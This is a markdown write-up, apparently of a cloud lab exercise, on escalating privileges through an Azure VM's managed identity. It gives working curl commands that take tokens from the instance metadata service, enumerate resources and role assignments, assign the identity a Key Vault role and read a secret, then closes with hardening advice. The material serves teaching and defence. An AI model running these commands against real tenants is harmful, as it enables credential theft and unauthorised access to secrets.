








> /AzureDefence/ManagedIdentityPrivilegeEscalation

# Breaking The Trust Chain: Exploiting Azure Managed Identities

Cloud environments remove many traditional security boundaries. A virtual machine no longer needs a stored password to access resources. Instead, Azure can provide identities directly to resources through **Managed Identities**, allowing applications and services to authenticate securely without managing credentials.

However, identity-based security comes with a familiar problem: excessive permissions.

A managed identity with unnecessary privileges can become a shortcut for attackers. Instead of stealing passwords, they can abuse the permissions already granted to a compromised resource and move deeper into the environment.

In this article, we will investigate how a compromised Azure VM identity can be abused, starting from initial access through the Instance Metadata Service (IMDS), discovering permissions, escalating access through RBAC, and finally accessing protected Key Vault secrets.

# Managed Identities

Managed Identities are Azure-created identities assigned to resources such as virtual machines, App Services, and other services that require authentication.

They remove the need to store credentials inside applications. Azure handles the identity lifecycle and provides temporary access tokens when the resource needs to authenticate.

There are two types:

**System-Assigned Managed Identity**

A system-assigned identity is created directly with an Azure resource. It is tied to that resource's lifecycle, meaning deleting the resource also removes the identity.

**User-Assigned Managed Identity**

A user-assigned identity exists as an independent Azure resource and can be attached to multiple resources.

The security advantage is clear: no hardcoded secrets, automatic credential rotation, and easier access management.

The security risk is also clear: A managed identity is only as safe as the permissions attached to it.

# The Attack Path

The attack scenario begins with limited information:

A compromised Azure credential.

No knowledge of the tenant structure.

No knowledge of accessible resources.

The objective, find an attack path and determine how far this identity can go.

**Resource Compromised**


**Properties**



The investigation follows this chain:

```text
Compromised Access
        |
        ↓
Azure VM Access
        |
        ↓
Managed Identity Token Theft
        |
        ↓
Permission Discovery
        |
        ↓
RBAC Abuse
        |
        ↓
Key Vault Secret Access
```

## Extracting The Managed Identity Token
 

After gaining SSH access to the Azure VM, the first step is checking whether the machine has an attached managed identity.

**ssh access**


Azure VMs expose the **Instance Metadata Service (IMDS)** locally at:

```text
http://169.254.169.254/
```

This service provides information about the VM, including temporary access tokens for its managed identity.

Let's request the available tokens.

```bash
ACCESS_TOKEN=$(curl -s -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq -r .access_token)
```

**Token Values**


This token allows interaction with Azure Resource Manager. A second token is requested for Key Vault operations:

```bash
KV_TOKEN=$(curl -s -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net" | jq -r .access_token)
```

The two tokens serve different purposes:

| Token          | Purpose                                                       |
| -------------- | ------------------------------------------------------------- |
| `ACCESS_TOKEN` | Azure management operations, resource discovery, RBAC changes |
| `KV_TOKEN`     | Key Vault data access                                         |


**AKV Address**


The interesting part is that having a token does not automatically mean having access. Permissions still decide what the identity can actually do.


With the management token available, let's enumerate accessible resources.

```bash
curl -s -X GET -H "Authorization: Bearer $ACCESS_TOKEN" \
"https://management.azure.com/subscriptions/<redacted>/resources?api-version=2021-04-01" | python3 -m json.tool
```




The response reveals the available Azure resources. During reconnaissance, we identify:

* A target Key Vault.
* The VM's managed identity.
* The associated principal ID.

The VM identity becomes the focus of the investigation.

## The RBAC Wall

Attempting to directly access Key Vault secrets fails. The identity exists, but Azure returns an authorization error. This reveals an important cloud security concept that, having management permissions does not automatically grant data access.

Azure separates access into two planes:

| Plane            | Purpose                                           |
| ---------------- | ------------------------------------------------- |
| Management Plane | Creating, modifying, and managing Azure resources |
| Data Plane       | Accessing the actual data stored inside services  |

The VM identity can interact with Azure resources, but it cannot read secrets yet.

Now the question becomes, `What permissions does this identity actually have?`

## Finding The Hidden Privilege

Let's inspect the role assignments attached to the resource group.

```bash
curl -s -X GET -H "Authorization: Bearer $ACCESS_TOKEN" \
"https://management.azure.com/subscriptions/<redacted>/resourceGroups/<redacted>/providers/Microsoft.Authorization/roleAssignments?api-version=2015-07-01" | python3 -m json.tool
```

The output reveals that the managed identity has been assigned a highly privileged role.


At first glance, this seems powerful enough to access everything. But Azure's permission model has a few layers. The **Owner** role grants the ability to manage resources and assign permissions, but it does not automatically provide access to all service data.

The missing piece is Key Vault data-plane permission.

## Turning Ownership Into Access

This is where excessive permissions become dangerous.

The Owner role includes:

```text
Microsoft.Authorization/roleAssignments/write
```

This allows the identity to create new role assignments.

Instead of directly accessing the secret, we can grant ourselves the required Key Vault permission.

Let's create a new role assignment:

```bash
NEW_GUID=$(cat /proc/sys/kernel/random/uuid)
```

Now assign the **Key Vault Secrets User** role.

```bash
curl -s -X PUT \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Content-Type: application/json" \
"https://management.azure.com/subscriptions/<redacted>/resourceGroups/<redacted>/providers/Microsoft.KeyVault/vaults/<redacted>/providers/Microsoft.Authorization/roleAssignments/$NEW_GUID?api-version=2022-04-01" \
-d '{
  "properties": {
    "roleDefinitionId": "/subscriptions/<redacted>/providers/Microsoft.Authorization/roleDefinitions/<redacted>",
    "principalId": "<redacted>"
  }
}' | python3 -m json.tool
```


The identity now has permission to read Key Vault secrets. A small permission change turned a restricted identity into one capable of accessing protected data.

Cloud privilege escalation often does not look like breaking a lock. Sometimes, the door was already open. The attacker simply noticed who had the key.


After RBAC propagation completes, we can query the Key Vault again.

```bash
curl -s -X GET \
-H "Authorization: Bearer $KV_TOKEN" \
"https://<redacted>.vault.azure.net/secrets/flag?api-version=7.4" | python3 -m json.tool
```


The response reveals the stored secret:



The attack path is complete.

The compromise did not require stealing a Key Vault password. The attacker abused an identity that already existed and expanded its permissions.

# The Identity Lesson

Managed identities are designed to make Azure environments safer by removing credential management. However, permissions are the real security boundary.

The complete attack chain looked like this:

```text
Linux VM
    |
    ↓
System Assigned Managed Identity
    |
    ↓
Owner RBAC Permission
    |
    ↓
Create Key Vault Role Assignment
    |
    ↓
Key Vault Secrets User
    |
    ↓
Secret Access
```

The weakness was not the managed identity itself. The issue was granting a workload identity more power than it required.

# Hardening Managed Identities

The strongest defence is following the `principle of least privilege`.

Avoid assigning broad roles such as `Owner` or `Contributor` to virtual machines unless there is a specific operational requirement.

Instead:

* Use custom roles with only required permissions.
* Review managed identity assignments regularly.
* Monitor Azure Activity Logs for unexpected `roleAssignments/write` operations.
* Audit service principals and workload identities like user accounts.

Managed identities remove the password problem, but they introduce an identity governance challenge.

In cloud security, the question is no longer only `"Who has the password?"` It becomes `"Who has the permission?"`

---

> QXV0aG9yOiBodHRwczovL2dpdGh1Yi5jb20vaGFzaC01NDU=
